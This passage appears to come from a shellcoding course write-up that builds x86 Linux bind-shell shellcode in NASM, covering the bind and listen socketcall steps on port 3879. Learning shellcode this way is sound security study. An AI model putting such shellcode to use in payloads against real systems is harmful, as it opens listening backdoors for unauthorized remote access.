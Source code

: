 The `addrlen` argument requires the size of the struct in bytes.

Having fulfilled the requirements for the `bind` function, the bind segment can now be created.

~~~ nasm
mov al, 0x66 ;socketcall syscall
inc bl ;ebx contains 2, for the type of socketcall, which is bind

;populate the stack with the arguments for the sockaddr_in structure
push esi  ;sin_addr, 0, is pushed on to the stack (8 bytes)
push word 0x270f  ;sin_port, 3879, is pushed on to the stack (unsigned int, 16 bits) (4 bytes)
push word 0x2  ;sin_family, AF_NET, which is 2, the same as PF_INET (unsigned int, 16 bits) (4 bytes)

mov ecx, esp ;the stack pointer to the sockaddr_in structure is moved into ecx

push 0x10; push bind addrlen to the stack, the length of the struct is 16 bytes (8 + 4 + 4)
push ecx ;the stack pointer to the sockaddr_in structure pushed on to the stack
push edx; push bind sockfd to the stack, this is the value of the file descriptor returned to socket

mov ecx, esp ;update ecx to the stack pointer which currently contains a pointer to sockfd, sockaddr_in, addrlen. All arguments for bind, as required by socketcall are pointed to by ECX
int 0x80  ;execute bind syscall
~~~

### Listen
Listen is a function that is also invoked by `socketcall`. The `net` header file contains the integer that needs to be specified for the `listen` function; this is `4`.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/linux/net.h | grep LISTEN
#define SYS_LISTEN	4		/* sys_listen(2)		*/
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
~~~

Next, the arguments that are required by the `listen` function can be looked into.

~~~ bash
SYNOPSIS
       #include <sys/types.h>          /* See NOTES */
       #include <sys/socket.h>

       int listen(int sockfd, int backlog);
~~~

The `sockfd` argument requires the file descriptor returned by a socket creation. This is currently stored in `EDX`.

The `backlog` argument requires the maximum length to which the queue of pending connections for `sockfd` may grow. This can be set to `0`.

Having fulfilled the requirements for the `listen` function, the listen segment can now be created.

~~~ nasm
mov al, 0x66 ;socketcall syscall
add bl, 0x2 ;ebx contains 4, for the type of socketcall, which is listen

;populate the stack with the arguments for listen
push esi  ;push listen backlog to the stack
push edx; push listen sockfd to the stack, this is the value of the file descriptor returned to socket

mov ecx, esp  ;all arguments for listen, as required by socketcall are pointed to by ECX
int 0x80  ;execute listen syscall
~~~
